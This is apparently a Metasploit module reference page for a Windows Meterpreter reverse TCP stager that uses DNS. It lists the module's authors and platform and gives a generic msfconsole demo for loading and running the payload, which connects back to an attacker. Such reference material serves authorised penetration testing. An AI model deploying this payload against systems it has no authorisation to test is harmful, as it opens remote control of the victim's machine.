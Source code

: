## Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (DNS)

Inject the meterpreter server DLL (staged). Connect back to 
the attacker


## Module Name
payload/windows/patchupmeterpreter/reverse_tcp_dns

## Authors
* skape
* jt <jt@klake.org>
* hdm
* sf





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupmeterpreter/reverse_tcp_dns
msf payload(reverse_tcp_dns) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_dns) > set TARGET <target-id>
msf payload(reverse_tcp_dns) > show options
   ... show and set options ...
msf payload(reverse_tcp_dns) > run
```
    
    